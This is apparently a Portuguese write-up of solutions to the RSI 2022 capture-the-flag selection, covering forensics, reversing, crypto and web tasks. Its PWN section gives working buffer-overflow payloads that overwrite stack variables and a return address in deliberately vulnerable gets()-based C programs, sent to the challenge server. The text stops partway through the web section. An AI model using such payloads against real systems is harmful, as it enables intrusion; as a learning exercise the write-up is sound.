# **Seleção RSI 2022 - Soluções dos desafios**

OBS.: Até o momento não sei se os desafios ficarão disponíveis após a seleção, mas optei por não exibir as flags e só mostrar a trilha que segui para encontrá-las

## **Lista de desafios**

- [Misc](#misc)
  - [Boas vindas - Seleção RSI 2022](#boas-vindas---seleção-rsi-2022)
  - [Consegue rodar?](#consegue-rodar)
- [Forense](#forense)
  - [Metaverso? lul](#metaverso-lul)
  - [Zzzzzzzzip](#zzzzzzzzip)
- [PWN](#pwn)
  - [BOF para leigos](#bof-para-leigos)
  - [BOF para leitores](#bof-para-leitores)
  - [BOF + redirect](#bof--redirect)
- [Reversing](#reversing)
  - [Introdução à Egenharia Reversa](#introdução-à-engenharia-reversa)
  - [babystrings](#babystrings)
  - [babystrings-wide](#babystrings-wide)
  - [stack](#stack)
  - [loops](#loops)
  - [pyme](#pyme)
- [Crypto](#crypto)
  - [Rato Ordinário Tripulante 13](#rato-ordinário-tripulante-13)
- [Web](#web)
  - [Que diabos é JS?](#que-diabos-é-js)
  - [Me dá o c\*\*kie?](#me-dá-o-ckie)
  - [App Sec](#appsec)


## **Misc**

### **Boas vindas - Seleção RSI 2022**



Esse era o desafio introdutório do CTF, só era preciso ler a descrição e pegar a flag no fim do texto

### **Consegue rodar?**


Nesse desafio era fornecido um binário ELF, verifiquei isso com o comando file

```
$ file main-build-elf
main-build-elf: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), statically linked, Go BuildID=WV6VAdL92mNIZfYnjK1X/-fWgsjsSRIHs2mf_cnG2/H25HJ6eN0e-USJcLng2R/qVZybCr3u_FVL_y8uvaq, stripped
```

Com o comando strings e grep, verifiquei se havia alguma ocorrência do padrão "R$1" n arquivo, mas não encontrei

```
$ strings main-build-elf | grep "R\$1"
```

Então eu rodei o programa e ele logo exibiu a flag:

```
$ chmod +x main-build-elf
$ ./main-build-elf
R$1{~FLAG~}
```

## **Forense**

### **Metaverso? lul**



Como a descrição informa, o nome do desafio é uma dica, o que me levou a explorar os metadados da imagem para ver se havia alguma informação, como em todo inicio, eu rodei o comando file para verificar o tipo de arquivo.

```
$ file flag1.jpg
flag1.jpg: JPEG image data, JFIF standard 1.01, resolution (DPI), density 96x96, segment length 16, Exif Standard: [TIFF image data, big-endian, direntries=4, manufacturer=Nikon, model=2424], progressive, precision 8, 1078x644, components 3
```

O file já exibe alguma informações, mas não a flag. Então usei o exif que serve para exibir metadados, mas a saída dele também não trouxe algum resultado que me levasse a flag

```
$ exif flag1.jpg
Tags EXIF em "flag1.jpg" (ordem de "Motorola" byte):
--------------------+----------------------------------------------------------
Etiqueta            |Valor
--------------------+----------------------------------------------------------
Manufacturer        |Nikon
Model               |2424
Padding             |2024 bytes undefined data
X-Resolution        |72
Y-Resolution        |72
Resolution Unit     |Inch
Exposure Program    |Manual
ISO Speed Ratings   |524
Metering Mode       |Spot
Light Source        |Daylight
Flash               |Flash fired, red-eye reduction mode
White Balance       |Manual white balance
Focal Length in 35mm|45
Contrast            |Soft
Saturation          |Low saturation
Sharpness           |Soft
Padding             |2012 bytes undefined data
Exif Version        |Exif Version 2.1
FlashPixVersion     |FlashPix Version 1.0
Color Space         |Uncalibrated
--------------------+----------------------------------------------------------

```

Então fui para o comando strings encontrar alguma referência ou algo que me levasse a flag, como no arquivo existem muito bytes que acabam formando strings eu limitei a saída para exibir as primeiras linhas

```
$ strings flag1.jpg | head -n 10
����
JFIF
�Exif
2424
Nikon
��      �http://ns.adobe.com/xap/1.0/
<?xpacket begin='' id='W5M0MpCehiHzreSzNTczkc9d'?>
<x:xmpmeta xmlns:x="adobe:ns:meta/"><rdf:RDF xmlns:rdf="http://www.w3.org/1999/02/22-rdf-syntax-ns#"><rdf:Description rdf:about="uuid:faf5bdd5-ba3d-11da-ad31-d33d75182f1b" xmlns:MicrosoftPhoto="http://ns.microsoft.com/photo/1.0/"><MicrosoftPhoto:CameraSerialNumber>UiQxe00zdDRfRjByNG5EMH0=</MicrosoftPhoto:CameraSerialNumber><MicrosoftPhoto:LensManufacturer>Nikon</MicrosoftPhoto:LensManufacturer><MicrosoftPhoto:FlashManufacturer>Nikon</MicrosoftPhoto:FlashManufacturer><MicrosoftPhoto:LensModel>453223</MicrosoftPhoto:LensModel><MicrosoftPhoto:FlashModel>412.</MicrosoftPhoto:FlashModel></rdf:Description></rdf:RDF></x:xmpmeta>

```

E no conteúdo ele já me trouxe duas strings em base64, fazendo o decode das duas tive as seguintes saídas:

```
$ echo -n "W5M0MpCehiHzreSzNTczkc9d" | base64 -d
[�42���!����573��]

$ echo -n "UiQxe00zdDRfRjByNG5EMH0=" | base64 -d
R$1{~FLAG~}
```

### **Zzzzzzzzip**



A primeira observação foi: o nome do desafio é zip, mas o arquivo fornecido é uma imagem, então verifiquei com o file se o tipo realmente correspondia com a extensão, e sim, realmente o arquivo é uma imagem:

```
$ file flag2.png
flag2.png: PNG image data, 670 x 720, 8-bit/color RGBA, non-interlaced
```

Então executei o comando strings para tentar achar alguma informação interessante

```
$ strings flag2.png
...
KUBf
[lcg
IEND
flag.txtUiQxe3M1c3AzMXQwfQ==PK
flag.txt
```

A imagem termina logo na linha que contém o [IEND](https://en.wikipedia.org/wiki/Portable_Network_Graphics), isso significa que existe um arquivo logo após o fim da imagem, como o nome do desafio é zip e também existe a string PK, que faz parte dos [magic numbers](https://en.wikipedia.org/wiki/List_of_file_signatures) de um arquivo zip, tentei dar um unzip no arquivo

```
$ unzip flag2.png
Archive:  flag2.png
warning [flag2.png]:  55994 extra bytes at beginning or within zipfile
  (attempting to process anyway)
 extracting: flag.txt
```

Ele extraiu um arquivo chamado flag.txt que contém a flag em base64, então fiz o decode:

```
$ cat flag.txt | base64 -d
R$1{~FLAG~}
```

## **PWN**

Referências que usei para resolver os desafios:

- Primeiras aulas do curso de exploração de binários do Fernando Fresteiro: https://www.youtube.com/watch?v=Ps3mZWQz01s&list=PLIfZMtpPYFP4MaQhy_iR8uM0mJEs7P7s3
- https://www.youtube.com/watch?v=njaQE8Q_Ems
- https://www.youtube.com/watch?v=8QzOC8HfOqU

### **BOF para leigos**



```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int x;
  } estrutura;

  printf("Bem-vindo ao primeiro desafio de PWN, estude buffer overflow!\n\n");

  estrutura.x = 0;
  gets(estrutura.buffer);

  if (estrutura.x != 0) {
    puts("Parabéns você modificou a variavel x!");
    system("cat ./flag.txt");
  } else {
    puts(
        "Opa, a variável não foi modificada, keep trying!");
  }

  exit(0);
}

```

Esse era o código fornecido para explorar, logo depois dos includes ele declara [gets](https://stackoverflow.com/questions/1694036/why-is-the-gets-function-so-dangerous-that-it-should-not-be-used), que é vulnerável.

Logo após ler o conteúdo do buffer, ele verifica se o valor de x é diferente de zero, então tive que sobrescrever o valor de x.

Compilei o binário e ele já informa que usar gets é perigoso:

```
$ gcc -o bof1 bof101.c
/usr/bin/ld: /tmp/cc0DHsI5.o: in function `main':
bof101.c:(.text+0x31): warning: the `gets' function is dangerous and should not be used.
```

Para entender como uma struct fica na memória: https://www.allaboutcircuits.com/technical-articles/understanding-memory-structures-in-embedded-c-language/

Como buffer tem 64 bytes, tenho que preenchê-lo e logo em seguida passar um valor diferente de 0, que ficará no endereço correspondente a x:

```
$ python3 -c "print('A' * 64 + '\x01')" | nc projetorsi.com.br 9001
R$1{~FLAG~}
Bem-vindo ao primeiro desafio de PWN, estude buffer overflow!
Parabéns você modificou a variavel x!
```

### **BOF para leitores**


Código do programa:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int x;
  } estrutura;

  printf("Bem-vindo ao segundo desafio de PWN, estude buffer overflow!\n\n");

  estrutura.x = 0;
  gets(estrutura.buffer);

  if (estrutura.x == 0x456889) {
    puts("Parabéns você modificou a variavel x!");
    system("cat ./flag.txt");
  } else {
    puts(
        "Opa, a variável não foi modificada, keep trying!");
  }

  exit(0);
}

```

O código é semelhante ao do primeiro desafio, mas com um valor específico em x, eu compilei ele da mesma forma que compilei o primeiro

```
$ gcc -o bof2 bof102.c
```

E tentei executar um payload semelhante, trocando só a informação final, lembrando que os bytes são passados em ordem inversa(little endian)

```
$ python3 -c "print('A' * 64 + '\x89\x68\x45')" | ./bof2
Bem-vindo ao segundo desafio de PWN, estude buffer overflow!

Opa, a variável não foi modificada, keep trying!
```

Não saiu como esperado, então usei o edb-debugger para verificar o que estava acontecendo na stack

```
$  python3 -c "print('A' * 64 + '\x89\x68\x45')" | edb --run ./bof2
```



e pude ver que é incluído um '0xc2' logo após os A's, que imagino que sejam colocados pela função gets, o 0xc2 acupa mais de um byte de char, então o que fiz foi remover um dos A's enviados, dessa forma logo após finalizar a string de 63 A's, o 0xc2 seria colocado na posição 64 e o valor do endereço ficaria correto

```
$  python3 -c "print('A' * 63 + '\x89\x68\x45')" | edb --run ./bof2
```



e agora que o valor está correto ele passa na comparação e retorna a flag

```
$python3 -c "print('A' * 63 + '\x89\x68\x45')" | nc projetorsi.com.br 9002
R$1{~FLAG~}
Bem-vindo ao segundo desafio de PWN, estude buffer overflow!

Parabéns você modificou a variavel x!
```

### **BOF + Redirect**



Esse desafio, além do código que é fornecido em todos os desafios, contém também o binário compilado

Código do programa:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

char *gets(char *);

void win(){
        printf("Parabens voce modificou o fluxo do programa\n");
        system("cat ./flag.txt");
}

int main(int argc, char **argv) {
  char buffer[64];
  void *ret;

  printf("Bem-vindo ao terceiro desafio de PWN, estude buffer overflow!\n\n");

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("Vamos para o endereço:%p\n", ret);
}
```

A estrutura é um pouco diferente dos outros dois primeiros, aqui tenho que sobrescrever o endereço de retorno e fazer ele apontar para a função win, que nunca é chamada. Para começar eu verifiquei se as proteções que me impediriam estavam desabilitadas

```
$ checksec bof103
[*] '/home/eduardo/Documents/rsi/solucoes/bof103'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Depois eu executei o programa só pra ver a saída, aproveitei e coloquei um valor que estourasse o buffer para ver o programa quebrando

```
$ python3 -c "print('A' * 100)" | ./bof103
Bem-vindo ao terceiro desafio de PWN, estude buffer overflow!

Vamos para o endereço:0x4141414141414141
[1]    117404 done                              python3 -c "print('A' * 100)" |
       117405 segmentation fault (core dumped)  ./bof103
```

Com 100 bytes eu consegui sobrescrever o endereço de retorno, não sei exatamente quantos bytes são necessários, como o programa diz para qual endereço ele está indo, fiz esse processo por tentativa e erro e vi que com 88 bytes o programa já dá segmentation fault, logo eu preciso de 87 bytes.

O próximo passo era descobrir o endereço da função win

```
$ gdb ./bof103
gdb-peda$ disas win
Dump of assembler code for function win:
   0x0000000000401196 <+0>:     endbr64
   0x000000000040119a <+4>:     push   rbp
   0x000000000040119b <+5>:     mov    rbp,rsp
   0x000000000040119e <+8>:     lea    rdi,[rip+0xe63]        # 0x402008
   0x00000000004011a5 <+15>:    call   0x401070 <puts@plt>
   0x00000000004011aa <+20>:    lea    rdi,[rip+0xe83]        # 0x402034
   0x00000000004011b1 <+27>:    call   0x401080 <system@plt>
   0x00000000004011b6 <+32>:    nop
   0x00000000004011b7 <+33>:    pop    rbp
   0x00000000004011b8 <+34>:    ret
End of assembler dump.
```

O endereço é 0x0000000000401196, depois disso criei um payload semelhante aos outros desafios

```
$ python3 -c "print('A' * 87 + '\x96\x11\x40\x00\x00\x00\x00\x00')" | nc projetorsi.com.br 9003
R$1{~FLAG~}
```

## **Reversing**

### **Introdução à Engenharia Reversa**



Código do programa:

```c
#include <stdio.h>
#include <string.h>

char myobfuscatedflag[] = "${0d0Rr11f_5tL}b";

char * obfuscate(char * flag){
        static char obfuscated_flag[16];
        obfuscated_flag[16] = '\0';
        obfuscated_flag[5] = flag[0];
        obfuscated_flag[0] = flag[1];
        obfuscated_flag[7] = flag[2];
        obfuscated_flag[1] = flag[3];
        obfuscated_flag[9] = flag[4];
        obfuscated_flag[8] = flag[5];
        obfuscated_flag[6] = flag[6];
        obfuscated_flag[11] = flag[7];
        obfuscated_flag[12] = flag[8];
        obfuscated_flag[10] = flag[9];
        obfuscated_flag[15] = flag[10];
        obfuscated_flag[13] = flag[11];
        obfuscated_flag[2] = flag[12];
        obfuscated_flag[4] = flag[13];
        obfuscated_flag[3] = flag[14];
        obfuscated_flag[14] = flag[15];

        return obfuscated_flag;
}

int main(){
        printf("Bem-vindo à Seleção RSI! Você consegue decodificar a flag?\n");

        return 0;
}
```

ele declara uma flag obfuscada e mostra a função que ofusca ela, então adicionei uma função que desofuscasse a flag e chamei ela na main. O código final ficou assim

```c
#include <stdio.h>
#include <string.h>

char myobfuscatedflag[] = "${0d0Rr11f_5tL}b";

char * obfuscate(char * flag){
	static char obfuscated_flag[16];
	obfuscated_flag[16] = '\0';
	obfuscated_flag[5] = flag[0];
	obfuscated_flag[0] = flag[1];
	obfuscated_flag[7] = flag[2];
	obfuscated_flag[1] = flag[3];
	obfuscated_flag[9] = flag[4];
	obfuscated_flag[8] = flag[5];
	obfuscated_flag[6] = flag[6];
	obfuscated_flag[11] = flag[7];
	obfuscated_flag[12] = flag[8];
	obfuscated_flag[10] = flag[9];
	obfuscated_flag[15] = flag[10];
	obfuscated_flag[13] = flag[11];
	obfuscated_flag[2] = flag[12];
	obfuscated_flag[4] = flag[13];
	obfuscated_flag[3] = flag[14];
	obfuscated_flag[14] = flag[15];

	return obfuscated_flag;
}

char * deobfuscate(char * obfuscated_flag){
	static char flag[16];
	flag[16] = '\0';
	flag[0] = obfuscated_flag[5];
	flag[1] = obfuscated_flag[0];
	flag[2] = obfuscated_flag[7];
	flag[3] = obfuscated_flag[1];
	flag[4] = obfuscated_flag[9];
	flag[5] = obfuscated_flag[8];
	flag[6] = obfuscated_flag[6];
	flag[7] = obfuscated_flag[11];
	flag[8] = obfuscated_flag[12];
	flag[9] = obfuscated_flag[10];
	flag[10] = obfuscated_flag[15];
	flag[11] = obfuscated_flag[13];
	flag[12] = obfuscated_flag[2];
	flag[13] = obfuscated_flag[4];
	flag[14] = obfuscated_flag[3];
	flag[15] = obfuscated_flag[14];

	return flag;
}

int main(){
	printf("Bem-vindo à Seleção RSI! Você consegue decodificar a flag?\n");
	printf("%s", deobfuscate(myobfuscatedflag));
	return 0;
}
```

Compilei e executei, então ele me retornou a flag

```
$ gcc intro.c -o intro
$ chmod +x intro
$ ./intro
Bem-vindo à Seleção RSI! Você consegue decodificar a flag?
R$1{~FLAG~}
```

### **babystrings**



Para conseguir, apenas executei o comando strings como diz o nome do desafio

```
$ strings babystrings | grep "R\$1"
R$1{~FLAG~}
```

### **babystrings-wide**



Assim como no anterior, esse desafio faz referência ao comando strings, mas diz que a flag está melhor escondida. Eu executei o strings e ele não exibiu a flag, então alterei o enconding para big endian 16bits e ele me retorna a flag

```
$ strings -e b babystrings-wide
R$1{~FLAG~}
```

### **stack**



Diferente dos outros, nesse desafio não era possível ver a flag com strings, então executei ele para tentar encontrar alguma coisa e ele não mostra nada.
Então eu disassemblei a função main com o gdb e vi que ele move vários valores para a stack, que achei que fossem a flag

```
$ gdb ./stack
gdb-peda$ disas main
Dump of assembler code for function main:
   0x0000555555555169 <+0>:     endbr64
   0x000055555555516d <+4>:     push   rbp
   0x000055555555516e <+5>:     mov    rbp,rsp
   0x0000555555555171 <+8>:     sub    rsp,0x20
   0x0000555555555175 <+12>:    mov    rax,QWORD PTR fs:0x28
   0x000055555555517e <+21>:    mov    QWORD PTR [rbp-0x8],rax
   0x0000555555555182 <+25>:    xor    eax,eax
   0x0000555555555184 <+27>:    mov    BYTE PTR [rbp-0x20],0x52
   0x0000555555555188 <+31>:    mov    BYTE PTR [rbp-0x1f],0x24
   0x000055555555518c <+35>:    mov    BYTE PTR [rbp-0x1e],0x31
   0x0000555555555190 <+39>:    mov    BYTE PTR [rbp-0x1d],0x7b
   0x0000555555555194 <+43>:    mov    BYTE PTR [rbp-0x1c],0x35
   0x0000555555555198 <+47>:    mov    BYTE PTR [rbp-0x1b],0x37
   0x000055555555519c <+51>:    mov    BYTE PTR [rbp-0x1a],0x34
   0x00005555555551a0 <+55>:    mov    BYTE PTR [rbp-0x19],0x63
   0x00005555555551a4 <+59>:    mov    BYTE PTR [rbp-0x18],0x4b
   0x00005555555551a8 <+63>:    mov    BYTE PTR [rbp-0x17],0x5f
   0x00005555555551ac <+67>:    mov    BYTE PTR [rbp-0x16],0x35
   0x00005555555551b0 <+71>:    mov    BYTE PTR [rbp-0x15],0x37
   0x00005555555551b4 <+75>:    mov    BYTE PTR [rbp-0x14],0x72
   0x00005555555551b8 <+79>:    mov    BYTE PTR [rbp-0x13],0x31
   0x00005555555551bc <+83>:    mov    BYTE PTR [rbp-0x12],0x4e
   0x00005555555551c0 <+87>:    mov    BYTE PTR [rbp-0x11],0x67
   0x00005555555551c4 <+91>:    mov    BYTE PTR [rbp-0x10],0x35
   0x00005555555551c8 <+95>:    mov    BYTE PTR [rbp-0xf],0x5f
   0x00005555555551cc <+99>:    mov    BYTE PTR [rbp-0xe],0x21
   0x00005555555551d0 <+103>:   mov    BYTE PTR [rbp-0xd],0x21
   0x00005555555551d4 <+107>:   mov    BYTE PTR [rbp-0xc],0x7d
   0x00005555555551d8 <+111>:   mov    BYTE PTR [rbp-0xb],0x0
   0x00005555555551dc <+115>:   lea    rdi,[rip+0xe25]        # 0x555555556008
   0x00005555555551e3 <+122>:   call   0x555555555060 <puts@plt>
   0x00005555555551e8 <+127>:   mov    eax,0x0
   0x00005555555551ed <+132>:   mov    rdx,QWORD PTR [rbp-0x8]
   0x00005555555551f1 <+136>:   xor    rdx,QWORD PTR fs:0x28
   0x00005555555551fa <+145>:   je     0x555555555201 <main+152>
   0x00005555555551fc <+147>:   call   0x555555555070 <__stack_chk_fail@plt>
   0x0000555555555201 <+152>:   leave
   0x0000555555555202 <+153>:   ret
End of assembler dump.
```

O que fiz foi pegar cada um desse valores e colocar num decode de hexa para ascii e então ele me exibe a flag

0x52 0x24 0x31 ... 0x21 0x7d

### loops


Nesse desafio era fornecido um código em assembly: 

```
;; cdecl calling convention

asm_function:
        push ebp
        mov ebp, esp
        mov eax, DWORD [ebp+0x8]
        mov ebx, DWORD [ebp+0xC]
        mov ecx, 10

subroutine:
        add eax, 1
        mul ebx
        dec ecx
        cmp ecx, 0
        jnz subroutine
        pop ebp
        ret

```
ele quer saber qual seria a saída se os parametros fossem 0x01 e 0x02, iniciando pelo comentário, fui ler sobre cdecl e descobri que os parametros são empurrados para a stack da direita para a esquerda, isso significa que ficariam assim
|  stack  |
|  ------ |
| 0x01  |
| 0x02  |

em asm_function ele move os valores da pilha para eax e ebx, com isso consegui os valores iniciais: eax = 1, ebx = 2

Em subroutine: ele executa várias instruções para alterar os valores, li sobre algumas delas para entender o código

- add -> faz a soma dos operandos que são passados
- mul -> é uma instrução que multiplica o valor de eax pelo operando que é passado
- dec -> subtrai 1 do operando
- cmp -> compara os valores o operando
- jnz -> jump not zero, salta para o operando caso a flag zf seja 0

Com essas informações eu criei um fluxo que eu conseguisse entender do programa, o código que imaginei que fosse análogo foi esse:
```python
eax = 1
ebx = 2
ecx = 10
while True:
  eax = eax + 1
  eax = eax * ebx
  ecx = ecx - 1
  if ecx == 0:
    break
print(hex(eax))
```
Coloquei a saída do programa no padrão da flag e submeti

### **pyme**



Esse arquivo contem um zip com vários arquivos dentro, um deles chamado main que é um binário

```
$ file main
main: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ac40f3d3f795f9ee657f59a09fbedea23c4d7e25, for GNU/Linux 2.6.32, stripped

```

Como o desafio fala em python, procurei arquivos python e não encontrei, mas dando um strings na main é possível ver a string pydata

```
$ strings main
....
.eh_frame_hdr
.eh_frame
.init_array
.fini_array
.dynamic
.got
.got.plt
.data
.bss
.comment
pydata
```

Executando o readelf é possível ver que essa string é na verdade o nome de uma seção do binário

```
$ readelf --section-headers main
...
  [25] .comment          PROGBITS         0000000000000000  0000c28c
       000000000000005c  0000000000000001  MS       0     0     1
  [26] pydata            PROGBITS         0000000000000000  0000c2e8
       00000000001a371c  0000000000000000           0     0     1
  [27] .shstrtab         STRTAB           0000000000000000  001afa04
       00000000000000fa  0000000000000000           0     0     1
Key to Flags:
  W (write), A (alloc), X (execute), M (merge), S (strings), I (info),
  L (link order), O (extra OS processing required), G (group), T (TLS),
  C (compressed), x (unknown), o (OS specific), E (exclude),
  D (mbind), l (large), p (processor specific)

```

Isso significa que é um script python que foi compilado, procurando no google vi que existe uma biblioteca chamada pyinstaller que faz justamente esse processo de transformar um script python em um binário, fiz alguns testes e vi que ela adicionava uma seção chamada pydata nos meu binários também, então procurei algo de fizesse o reverso e encontrei o [PyInstallerExtractor](https://github.com/extremecoders-re/pyinstxtractor), fiz o clone e executei ele no arquivo main:

```
$ git clone https://github.com/extremecoders-re/pyinstxtractor
$ cd pyinstxtractor
$ python3 pyinstxtractor.py ../main
```

Ele cria um diretório com vários arquivos pyc, eu achei que teria que procurar algo para decompilar os arquivos pyc também, mas executei um strings e ele já exibiu a flag

```
$ strings main.pyc
z&R$1{~FLAG~}z
Hello, World!N)
flag
print
main.py
<module>
```

## **Crypto**

### **Rato Ordinário Tripulante 13**



O nome do desafio é uma dica, se pegar as iniciais fica ROT13 que é uma cifra de rotação onde as letras são deslocadas em 13 posições,
basta pegar a flag cifrada e jogar num decode de rot13



## **Web**

### **Que diabos é JS?**



O desafio tem um site onde o usuário pode colocar uma senha, como o nome do desafio menciona js, eu inspecionei o código-fonte para ver se existia algum código em javascript que pudesse me levar a flag e encontrei esse trecho de código

```javascript
async function open_safe() {
  keyhole.disabled = true;
  XxYzz = btoa(keyhole.value);
  XxYzz6 = btoa("keyhole.value");
  XxYzz5 = btoa("keyhole.value");
  ZzXxYyzz2 = atob(XxYzz6);
  ZzXxYyzz3 = atob(XxYzz5);
  ZzXxYyzz4 = btoa(XxYzz5);
  ZzXxYyzz5 = btoa(XxYzz);
  ZzXxYyzz2 = atob(XxYzz5);
  ZzXxYyzz2 = btoa(XxYzz5);

  if (
    btoa(ZzXxYyzz5) ==
    "VldsUmVHVXhXbEJSTUZabVZUQkdRMUpXT1UxU1ZrcG1WREZXWmxKRlZrTldWV1JJVVZaS1psTnJSbGRSVms1RVZXdHNVVlpHT1ZOU1ZYaENWMFZHWmxWV1ZrWllNVTVRV0RGQ1NsUXhTa0ptVVQwOQ=="
  ) {
    return (document.body.className = "denied");
  }

  if (
    atob(ZzXxYyzz2) ==
    "VWlReGUxWlBRMFZmVTasBGQ1JWOasdUasda1SVkpmVDFWZlJFVkNWVWRIUVZKZlNrRldRVk5EVWtsUVZGOVNSVXhCV0VGZlVWVkZYMU5QWDFCSlQxSkJmUT09"
  ) {
    return (document.body.className = "granted");
  }

